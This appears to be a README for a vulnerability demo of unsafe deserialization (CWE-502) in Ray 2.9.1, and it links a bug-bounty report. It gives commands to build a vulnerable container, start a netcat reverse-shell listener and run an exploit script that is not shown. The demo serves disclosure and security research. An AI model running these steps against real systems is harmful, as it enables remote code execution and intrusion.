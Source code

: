# Ray 2.9.1 Deserialization Demo - CWE-502
Report: https://huntr.com/bounties/ce6cb61c-fce1-406f-80e2-f3b7cdddbd6f
Resources:
   - https://docs.ray.io/en/latest/ray-overview/installation.html
   - https://github.com/ray-project/ray


## Overview
...


## Commands

### Terminal 1 - Start the Service
```bash
docker build -t ray-cwe-demo:2.9.1 --no-cache .
docker run -it --publish-all --shm-size=4.43gb ray-cwe-demo:2.9.1
```

### Terminal 2 - Reverse Shell
```bash
nc -lvp 4321
```

### Terminal 3 - Attack
```bash
python -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
python exploit.py
```
